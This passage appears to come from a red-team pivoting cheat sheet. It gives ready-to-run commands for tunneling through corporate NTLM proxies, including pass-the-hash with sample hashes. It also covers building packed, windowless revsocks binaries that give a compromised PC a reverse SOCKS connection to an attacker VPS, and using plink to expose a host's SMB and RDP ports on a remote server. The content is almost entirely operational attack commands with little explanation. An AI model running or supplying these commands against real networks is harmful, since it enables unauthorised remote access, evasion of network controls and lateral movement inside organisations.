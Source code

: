 ```python
python client.py --server-ip <ip> --server-port 9443
```

Through corporate proxy

```python
python client.py --server-ip [server ip] --server-port 9443 --ntlm-proxy-ip [proxy ip] \
--ntlm-proxy-port 8080 --domain CORP --username jdoe --password 1q2w3e
```

Passing the hash

```python
python client.py --server-ip [server ip] --server-port 9443 --ntlm-proxy-ip [proxy ip] \
--ntlm-proxy-port 8080 --domain CORP --username jdoe \
--hashes 986D46921DDE3E58E03656362614DEFE:50C189A98FF73B39AAD3B435B51404EE
```

## revsocks

```powershell
# Listen on the server and create a SOCKS 5 proxy on port 1080
user@VPS$ ./revsocks -listen :8443 -socks 127.0.0.1:1080 -pass Password1234

# Connect client to the server
user@PC$ ./revsocks -connect 10.10.10.10:8443 -pass Password1234
user@PC$ ./revsocks -connect 10.10.10.10:8443 -pass Password1234 -proxy proxy.domain.local:3128 -proxyauth Domain/userpame:userpass -useragent "Mozilla 5.0/IE Windows 10"
```


```powershell
# Build for Linux
git clone https://github.com/kost/revsocks
export GOPATH=~/go
go get github.com/hashicorp/yamux
go get github.com/armon/go-socks5
go get github.com/kost/go-ntlmssp
go build
go build -ldflags="-s -w" && upx --brute revsocks

# Build for Windows
go get github.com/hashicorp/yamux
go get github.com/armon/go-socks5
go get github.com/kost/go-ntlmssp
GOOS=windows GOARCH=amd64 go build -ldflags="-s -w"
go build -ldflags -H=windowsgui
upx revsocks
```


## plink

```powershell
# exposes the SMB port of the machine in the port 445 of the SSH Server
plink -l root -pw toor -R 445:127.0.0.1:445 
# exposes the RDP port of the machine in the port 3390 of the SSH Server
plink -l root -pw toor ssh-server-ip -R 3390:127.0.0.1:3389  

plink -l root -pw mypassword 192.168.18.84 -R
plink.exe -v -pw mypassword user@10.10.10.10 -L 6666:127.0.0.1:445

plink -R [Port to forward to on your VPS]:localhost:[Port to forward on your local machine] [VPS IP]
# redirects the Windows port 445 to Kali on port 22
plink -P 22 -l root -pw some_password -C -R 445:127.0.0.1:445 192.168.12.185   
```
